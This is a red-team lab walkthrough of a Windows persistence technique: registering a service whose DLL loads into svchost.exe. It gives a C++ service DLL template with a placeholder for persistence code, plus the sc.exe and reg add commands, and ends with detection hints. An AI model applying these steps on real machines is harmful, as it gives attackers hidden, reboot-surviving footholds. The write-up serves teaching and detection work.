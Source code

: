 ```yaml
---
layout: post
title: "2024-06-18-persisting in svchost.exe with a service dll servicemain"
date: 2024-06-18
categories: persistence
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /persisting-in-svchost.exe-with-a-service-dll-servicemain/
---
```


# Persisting in svchost.exe with a Service DLL

This is a quick lab that looks into a persistence mechanism that relies on installing a new Windows service, that will be hosted by an svchost.exe process.

## Overview

At a high level, this is how the technique works:

1. Create a service `EvilSvc.dll` DLL (the DLL that will be loaded into an `svchost.exe`) with the code we want executed on each system reboot
2. Create a new service `EvilSvc` with `binPath= svchost.exe`
3. Add the `ServiceDll` value to `EvilSvc` service and point it to the service DLL compiled in step 1
4. Modify `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost` to specify under which group your service should be loaded into
5. Start `EvilSvc` service
6. The `EvilSvc` is started and its service DLL `EvilSvc.dll` is loaded into an `svchost.exe`

## Walkthrough

### 1. Compile Service DLL

First of, let's compile our service DLL as EvilSvc.dll. This DLL is going to be loaded into an `svchost.exe` as part of our service `EvilSvc` that we will register in a second:

```cpp
#include "pch.h"
#define SVCNAME TEXT("EvilSvc")

SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle;
HANDLE stopEvent = NULL;

VOID UpdateServiceStatus(DWORD currentState)
{
    serviceStatus.dwCurrentState = currentState;
    SetServiceStatus(serviceStatusHandle, &serviceStatus);
}

DWORD ServiceHandler(DWORD controlCode, DWORD eventType, LPVOID eventData, LPVOID context)
{
    switch (controlCode)
    {
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_SHUTDOWN:
            serviceStatus.dwCurrentState = SERVICE_STOPPED;
            SetEvent(stopEvent);
            break;
        case SERVICE_CONTROL_PAUSE:
            serviceStatus.dwCurrentState = SERVICE_PAUSED;
            break;
        case SERVICE_CONTROL_CONTINUE:
            serviceStatus.dwCurrentState = SERVICE_RUNNING;
            break;
        case SERVICE_CONTROL_INTERROGATE:
            break;
        default:
            break;
    }

    UpdateServiceStatus(SERVICE_RUNNING);

    return NO_ERROR;
}

VOID ExecuteServiceCode()
{
    stopEvent = CreateEvent(NULL, TRUE, FALSE, NULL);
    UpdateServiceStatus(SERVICE_RUNNING);

    // #####################################
    // your persistence code here
    // #####################################

    while (1)
    {
        WaitForSingleObject(stopEvent, INFINITE);
        UpdateServiceStatus(SERVICE_STOPPED);
        return;
    }
}

extern "C" __declspec(dllexport) VOID WINAPI ServiceMain(DWORD argC, LPWSTR * argV)
{
    serviceStatusHandle = RegisterServiceCtrlHandler(SVCNAME, (LPHANDLER_FUNCTION)ServiceHandler);

    serviceStatus.dwServiceType = SERVICE_WIN32_SHARE_PROCESS;
    serviceStatus.dwServiceSpecificExitCode = 0;

    UpdateServiceStatus(SERVICE_START_PENDING);
    ExecuteServiceCode();
}
```

### 2. Create EvilSvc Service

Let's now create a new service called `EvilSvc` and specify the `binPath` to be `svchost.exe -k DcomLaunch`, which will tell Service Control Manager that we want our `EvilSvc` to be hosted by `svchost.exe` in a service group called `DcomLaunch`:

```
sc.exe create EvilSvc binPath= "c:\windows\System32\svchost.exe -k DcomLaunch" type= share start= auto
```

### 3. Modify EvilSvc - Specify ServiceDLL Path

Next, inside `HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\`, create a new value called `ServiceDll` and point it to the EvilSvc.dll service DLL compiled in step 1:

```
reg add HKLM\SYSTEM\CurrentControlSet\services\EvilSvc\Parameters /v ServiceDll /t REG_EXPAND_SZ /d C:\Windows\system32\EvilSvc.dll /f
```

{% hint style="warning" %}
`EvilSvc.dll` must exist in `C:\Windows\system32\EvilSvc.dll`
{% endhint %}

At this point, our `EvilSvc` should be created with all the right parameters as seen in the registry:

![](<../../.gitbook/assets/image (628).png>)

### 4. Group EvilSvc with DcomLaunch

As a final step, we need to tell the Service Control Manager under which service group our `EvilSvc`should load.&#x20;

We want it to get loaded in the `DcomLaunch` group, so we need to add our service name `EvilSvc` in the list of services in the `DcomLaunch` value in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost`:

![](<../../.gitbook/assets/image (626).png>)

### 5. Start EvilSvc Service

We can now try loading our `EvilSvc` service:

```
sc.exe start EvilSvc
```

`EvilSvc` is now loaded into svchost.exe as part of a `DcomLauncher` services group:

![](<../../.gitbook/assets/image (630).png>)

## Detection

Below are some initial thoughts on how one could start hunting for this technique:

* Recently created services with `svchost.exe` as a `binpath`
* Listing out ServiceDLL value for all system services and looking for DLLs that are loaded from suspicious locations (i.e non c:\windows\system32):\
  `Get-ItemProperty hklm:\SYSTEM\ControlSet001\Services\*\Parameters | ? { $_.servicedll } | select psparentpath, servicedll`

![EvilSvc.dll location sticking out](<../../.gitbook/assets/image (631).png>)

## References

{% embed url="https://docs.microsoft.com/en-us/windows/win32/services/writing-a-servicemain-function" %}
@spotheplanet
